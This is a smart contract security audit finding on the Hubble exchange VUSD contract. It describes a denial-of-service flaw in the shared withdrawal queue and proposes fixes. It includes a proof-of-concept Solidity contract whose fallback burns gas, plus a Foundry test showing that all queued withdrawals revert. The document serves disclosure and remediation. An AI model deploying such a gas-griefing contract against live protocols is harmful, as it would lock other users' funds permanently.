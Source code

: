 dirk_y

high

# Malicious user can block all withdrawals from vUSD to gas token

## Summary
A malicious user can use a malicious smart contract to block withdrawals for all users forever. Any native token locked in VUSD will be locked forever.

## Vulnerability Detail
The VUSD contract allows a user to mint hUSD/vUSD by depositing the Hubble gas token (USDC). Similarly, a user can withdraw their deposited USDC by burning the hUSD funds they hold.

The withdrawal process takes place in 2 steps. First, the user has to call `withdraw` or `withdrawTo`. These methods burn the corresponding vUSD amount from the sender and add the withdrawal to a queue. This queue is global (i.e. shared between users). The second step to finalising a withdrawal is to call `processWithdrawals`. This method loops through all of the withdrawals in the queue and calls:

```solidity
(bool success, bytes memory data) = withdrawal.usr.call{value: withdrawal.amount}("");
```

This line is the issue with this global withdrawal mechanism. A malicious user can call the `withdraw` method from a malicious contract that has a fallback method which just burns gas. Because a solidity `.call` forwards (almost) all the gas to the callee address, the malicious contract can burn all the gas with a noop. In fact, if enough gas is burnt then any calls to `processWithdrawals` will hit the block gas limit and the whole call will revert. The result is that none of the withdrawals in the queue can ever be processed.

This vulnerability is demonstrated with the following change to the existing test suite and can be easily run with `forge test -vvv --match-path test/foundry/VUSDWithReceive.t.sol`:

```diff
diff --git a/hubble-protocol/test/foundry/MaliciousContract.sol b/hubble-protocol/test/foundry/MaliciousContract.sol
new file mode 100644
index 0000000..23b49dd
--- /dev/null
+++ b/hubble-protocol/test/foundry/MaliciousContract.sol
@@ -0,0 +1,19 @@
+// SPDX-License-Identifier: UNLICENSED
+pragma solidity 0.8.9;
+
+import "../../contracts/Interfaces.sol";
+
+contract MaliciousContract {
+    // Burn gas!
+    fallback() payable external {
+        uint256 i = 0;
+        while (i < 200000) {
+            i += 1;
+        }
+        return;
+    }
+
+    function qWithdrawal(address husd, uint256 amount) public {
+        IVUSD(husd).withdraw(amount);
+    }
+}
diff --git a/hubble-protocol/test/foundry/VUSDWithReceive.t.sol b/hubble-protocol/test/foundry/VUSDWithReceive.t.sol
index 7152af4..2d859ad 100644
--- a/hubble-protocol/test/foundry/VUSDWithReceive.t.sol
+++ b/hubble-protocol/test/foundry/VUSDWithReceive.t.sol
@@ -1,36 +1,49 @@
 // SPDX-License-Identifier: UNLICENSED
 pragma solidity 0.8.9;
 import "./Utils.sol";
+import "./MaliciousContract.sol";
 
 contract VUSDWithReceiveTest is Utils {
     event WithdrawalFailed(address indexed trader, uint amount, bytes data);
 
+    MaliciousContract maliciousContract;
+
+
     function setUp() public {
         setupContracts();
+
+        // Deploy malicious contract
+        maliciousContract = new MaliciousContract();
     }
 
     function testWithdrawWithReceive(uint128 amount) public {
         vm.assume(amount >= 5e6);
-        // mint vusd for this contract
-        mintVusd(address(this), amount);
-        // alice and bob also mint vusd
-        mintVusd(alice, amount);
-        mintVusd(bob, amount);
-
-        // withdraw husd
-        husd.withdraw(amount); // first withdraw in the array
-        vm.prank(alice);
-        husd.withdraw(amount);
+        mintVusd(address(maliciousContract), amount);
+
+        // Let's say bob is malicious and uses a malicious contract to withdraw from vUSD/hUSD
         vm.prank(bob);
-        husd.withdraw(amount);
+        maliciousContract.qWithdrawal(address(husd), amount);
 
-        assertEq(husd.withdrawalQLength(), 3);
+
+        // Let's create some other users who also want to withdraw (since solidity call leaves 1/64 of gas).
+        // In this case we create 7 other users who also want to withdraw and join the queue
+        uint160 addressCounter = 1000;
+        for (uint160 i = 0; i < 7; i++) {
+            mintVusd(address(addressCounter + i), amount);
+            vm.prank(address(addressCounter + i));
+            husd.withdraw(amount);
+        }
+
+        assertEq(husd.withdrawalQLength(), 8);
         assertEq(husd.start(), 0);
 
-        husd.processWithdrawals();
+        // We expect a revert due to out of gas
+        vm.expectRevert();
+        husd.processWithdrawals{gas: 15000000}(); // Block gas limit assumed to be same as Avalanch at 15 million
 
-        assertEq(husd.withdrawalQLength(), 3);
-        assertEq(husd.start(), 3);
+        assertEq(husd.withdrawalQLength(), 8);
+        // None of the withdrawals have been processed
+        assertEq(husd.start(), 0);
     }
 
     receive() payable external {
```

## Impact
A malicious use can block all withdrawals from vUSD to the Hubble gas token (USDC). For users that haven't queued a withdrawal yet, this will mean their original USDC is locked in the contract forever, but they still have their vUSD. However, users that have already queued a withdrawal will have lost both their USDC and the corresponding vUSD that has already been burnt in the call to `withdraw`.

## Code Snippet
https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L65-L85

## Tool used
Manual Review

## Recommendation
If you want to continue with a 2 step withdrawal process, then each user should have their own queue. Not only does this prevent a malicious user from blocking withdrawals of all the other users, but it also means that a user doesn't have to pay the gas for other users to finalise a withdrawal.

Alternatively you could forego the queue and instead have a one step withdrawal where the vUSD is burnt and the USDC is sent in the same method.